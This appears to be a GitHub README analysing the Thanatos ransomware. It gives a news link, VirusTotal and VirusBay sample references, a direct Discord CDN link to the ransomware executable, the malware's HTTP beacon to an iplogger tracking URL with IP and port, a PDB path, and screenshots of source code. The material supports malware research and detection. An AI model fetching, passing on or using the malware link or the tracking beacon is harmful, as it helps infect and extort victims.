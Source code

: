 # Thanatos-Ransomware

## Introduction

Ransomware developers continue to release infections that are clearly not tested well and contain bugs that may make it difficult, if not impossible, for victims to recover their files. Such is the case with the new in the wild ransomware called Thanatos.

[![NEWS]](https://www.bleepingcomputer.com/news/security/thanatos-ransomware-is-first-to-use-bitcoin-cash-messes-up-encryption/)

## Source Ransomware

Resource Ransomware [![Discordapp]](http://cdn.discordapp.com/attachments/230687913581477889/424941165339475968/fastleafdecay.exe)

Pay Attention Malicious File : [![VirusTotal]](https://www.virustotal.com/#/file/42748e1504f668977c0a0b6ac285b9f2935334c0400d0a1df91673c8e3761312/detection)

## Samples for researchers : 

### Best place [![VirusBay]](https://beta.virusbay.io/sample/browse?q=5a89b56c2e969f4b8bf1fa79)

## Network Traffic

`GET /1CUTM6 HTTP/1.1..Connection: Keep-Alive..Content-Type: application/x-www-form-urlencoded..U
ser-Agent: Mozilla/5.0 (Windows NT 6.1) Thanatos/1.1..Host: iplogger.com....`

hxxp://iplogger[.]com:80/1CUTM6
hxxp://iplogger[.]com:80/1t3i37

IP : 88.99.66.31
Port : 80
#### Description :
This url allow attacker to know information victims and stay update to know any new location.

## Behaviour 

PDB path : C:\Users\Artur\Desktop\csharp - js\косте пизда\Release\Thanatos.pdb 

![What they Need](https://1.bp.blogspot.com/-6o-rF1br8oA/WzJOxkbzILI/AAAAAAAAArc/xi9faoPTVMkQ8aklSg4sTly1Eq6ri1tdwCLcBGAs/s640/image9.png)

##### Let's take a loock at source code 

![](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_121655.png)

![](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_121920.png)

![Decrypt Key](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_121954.png)

![](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_122110.png)
